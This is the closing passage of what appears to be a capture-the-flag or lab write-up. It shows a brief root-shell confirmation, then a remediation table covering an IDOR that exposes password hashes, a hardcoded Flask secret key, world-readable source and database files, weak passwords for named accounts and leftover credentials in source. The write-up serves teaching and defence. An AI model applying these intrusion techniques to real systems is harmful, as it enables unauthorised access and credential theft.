

```bash
root@3bc18b1c538f:~# whoami
root
root@3bc18b1c538f:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Root achieved.

## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| IDOR on `/dashboard?id=N` — no ownership check, exposes usernames and password hashes for any user ID | Always verify the requested resource belongs to the authenticated session; never trust a client-supplied ID for authorization |
| Password hashes rendered in plaintext HTML on the dashboard's password-change section | Never expose stored hashes to the client, even the user's own; hashes should stay server-side only |
| Weak, hardcoded Flask `secret_key` | Generate a strong random secret per deployment and load it from environment/secrets management, never hardcode in source |
| `database.db` and `app.py` world-readable in `/home` | Restrict file permissions on application source and database files; never leave them readable by non-owning users |
| Weak, wordlist-guessable passwords across multiple accounts (`admin`, `pingu`, `pepe`, `aidor`, `root`) | Enforce strong, unique passwords; disable or rotate default/test accounts before deployment |
| Leftover credential comment in source code (`root` seed with hash) | Remove debug/seed data and credentials from source before shipping; use `.gitignore` and secret scanning |
